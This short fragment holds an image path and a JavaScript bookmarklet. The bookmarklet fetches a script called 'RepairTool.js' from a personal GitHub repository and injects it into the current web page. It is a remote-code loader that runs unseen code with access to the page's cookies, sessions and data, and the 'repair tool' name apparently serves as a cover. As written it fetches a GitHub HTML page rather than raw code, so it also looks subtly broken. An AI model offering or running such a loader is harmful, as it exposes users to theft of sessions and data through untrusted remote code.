 javascript:(async()=>{ const u='https://github.com/Pollamasiva69/gallinamasiva69/blob/main/RepairTool.js'; const c=await (await fetch(u,{cache:'no-store'})).text(); const blob=new Blob([c],{type:'application/javascript'}); const url=URL.createObjectURL(blob); const s=document.createElement('script'); s.src=url; document.body.appendChild(s); })();;
